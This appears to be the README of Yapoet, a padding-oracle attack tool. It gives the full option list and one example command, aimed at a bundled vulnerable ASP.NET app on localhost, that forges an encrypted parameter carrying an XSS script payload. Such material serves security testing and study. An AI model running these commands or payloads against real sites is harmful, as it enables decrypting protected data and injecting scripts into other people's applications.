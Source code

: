 Yapoet
======

Comprehensive description will be added later. Presently you can try to play with it against included example of a vulnerable web application:
```\Examples\ASP.NET-Webforms\BuildAndRun.cmd
python yapoet.py -u http://localhost:8080/ -d "aEMei5bwchHQqb6rh17Irg==" -e "<script>alert(/XSS/)</script>" --data="__VIEWSTATE=&Answer=&EncryptedAnswer=%encrypted_data%"```

Usage
=====
```yapoet.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Target URL (e.g. "http://host.domain/?param1=value%2b1
                        &param2=value%2b2")
  -d ENCRYPTED_DATA, --decrypt=ENCRYPTED_DATA
                        Base64-encoded data to decrypt
  -e PLAINTEXT_DATA, --encrypt=PLAINTEXT_DATA
                        Plaintext data to encrypt
  --data=POST_DATA      POST data (e.g. "param1=value%2b1&param2=value%2b1")
  --cookie=COOKIE       HTTP Cookie header value
  --block-size=BLOCK_SIZE
                        Cipher block size [default: 16]
  --iv=IV               Initialization vector (e.g. "0x00,0x01,0x39...")
                        [default: 0x00 * BLOCK_SIZE]
  --mode=MODE           Mode of operation (e.g. "ECB" or "CBC") [default: CBC]

Please note that the value of at least one of the HTTP-request parameters in
the URL, POST_DATA or COOKIE options should be replaced with an
%encrypted_data% placeholder.```
